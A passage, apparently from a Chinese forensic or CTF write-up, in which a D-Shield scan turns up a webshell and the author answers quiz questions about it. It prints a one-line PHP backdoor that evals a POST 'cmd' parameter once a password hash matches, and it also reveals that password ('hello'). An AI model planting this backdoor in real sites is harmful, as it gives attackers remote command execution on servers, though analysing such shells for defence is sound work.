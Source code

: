 [![](assets/1708919884-d673ec745847e706045d1b769956ca60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002633-fb626f7a-cc1e-1.png)

```bash
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

md5 解一下是 hello

3.不死马是通过哪个文件生成的，请提交文件名

接上面 d 盾扫出来的图

[![](assets/1708919884-43fa579808861296b549ce901c5b288b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002638-fe75a52e-cc1e-1.png)
